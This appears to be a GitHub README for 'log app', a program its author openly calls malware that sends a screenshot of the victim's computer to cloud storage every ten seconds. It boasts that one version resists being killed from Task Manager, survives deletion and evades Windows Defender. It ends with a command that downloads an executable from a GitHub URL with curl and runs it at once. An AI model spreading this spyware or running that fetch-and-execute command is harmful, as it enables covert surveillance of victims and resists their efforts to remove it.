 # log app

The log.exe and log_v1.0.exe is a malware that will send screenshot of your pc every 10secs to a cloud based storage.

The log_v1.0 is an updated version of the original log.exe. This version adds a new feature to the malware, which prevents the user from manually killing the malware from the taskmanager. The victim has to use the terminal to kill the app.

Both versions of the malware can not be killed by simply deleting. Even though the malware might seem deleted the malware will still run and affect your computer.

### Windows defender will not block the malware during installation or stop it while its running.

In order to test the malware in your virtual machine, simply install and run the malware or type the following command in the command prompt `mkdir C:/tempapp; curl -o "C:/tempapp/log.exe" https://github.com/falahabubacker/scripts-apps/blob/main/log_v1.1.exe; START C:/tempapp/log.exe;`
